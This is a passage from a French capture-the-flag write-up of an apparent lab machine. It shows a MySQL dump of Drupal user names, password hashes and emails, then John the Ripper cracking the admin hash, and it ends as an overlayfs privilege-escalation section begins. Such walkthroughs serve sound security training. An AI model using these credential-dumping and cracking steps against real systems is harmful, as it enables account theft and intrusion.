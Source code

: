 ```console
| drupal             |
+--------------------+
2 rows in set (0.00 sec)

mysql> use drupal;
use drupal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> select uid, name, pass, mail from users;
select uid, name, pass, mail from users;
+-----+-------------+---------------------------------------------------------+------------------------+
| uid | name        | pass                                                    | mail                   |
+-----+-------------+---------------------------------------------------------+------------------------+
|   0 |             |                                                         |                        |
|   1 | drupaladmin | $S$Ds5SgCrqwrbxJY36HldOHA3C9wWH0W3DXMkHSXBb7SsYVfhhlM7s | drupal@knight139.co.uk |
|   2 | test        | $S$D/0DCbCuhwuXDbHMqREIzjKAZ83D8zOSd.gLRIEVvHSc.eVUxvhD | test@test.test         |
+-----+-------------+---------------------------------------------------------+------------------------+
3 rows in set (0.00 sec)
```

Oh, des hashs de mots de passe ! À toi de jouer, [__John The Ripper__](http://openwall.com/john/) !

```console
root@blinils:~# john passmysql
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (Drupal7, $S$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (drupaladmin)
1g 0:00:03:41 10.21% 2/3 (ETA: 16:01:30) 0.004507g/s 77.70p/s 94.43c/s 94.43C/s Wolverine1..Aaaa1
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

## Élévation de privilèges avec _'overlayfs' Local Privilege Escalation_

Mis à part les fichiers trouvés ci-dessus, il n'y a rien de plus à se mettre sous la dent. Quid du système d'exploitation installé ?

```console
gsuser@droopy:~$ uname -a
uname -a
Linux droopy 3.13.0-43-generic #72-Ubuntu SMP Mon Dec 8 19:35:06 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```
